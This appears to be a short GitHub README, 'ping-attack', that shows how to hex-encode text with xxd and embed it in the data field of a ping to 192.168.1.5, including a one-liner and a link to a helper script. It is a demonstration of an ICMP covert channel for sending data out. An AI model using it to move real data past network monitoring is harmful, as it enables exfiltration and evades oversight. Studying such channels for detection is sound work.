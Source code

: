 # ping-attack

Basic Commands:<br>

#This will take the text "test" and convert to hex:<br>
```bash
echo "test" | xxd -p```

#output:<br>
746573740a

#This will ping the ip address and add the hex of "test" into the data field<br>
```ping -c 1 192.168.1.5 -p 746573740a```


or use the oneline script of:<br>
```ping -c 1 192.168.1.5 -p $(echo -n "test" | xxd -p)```

or use the scripts ping_payload1.sh located at:<br>
https://github.com/yen5004/ping-attack/blob/9aae89150817556d350d8b5587fc3f86cccddde3/ping_payload1.sh<br>
just pass the ip address and text
